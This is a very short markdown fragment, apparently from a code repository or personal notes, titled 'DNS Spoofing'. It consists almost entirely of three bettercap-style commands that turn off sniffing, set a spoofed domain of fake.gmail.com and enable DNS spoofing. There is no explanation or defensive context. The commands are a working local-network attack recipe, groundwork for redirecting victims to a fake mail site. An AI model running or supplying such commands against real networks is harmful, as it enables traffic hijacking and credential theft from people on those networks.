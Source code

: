 # DNS Spoofing

```
net.sniff off
```

```
set dns.spoof.domains fake.gmail.com
```

```
dns.spoof on
```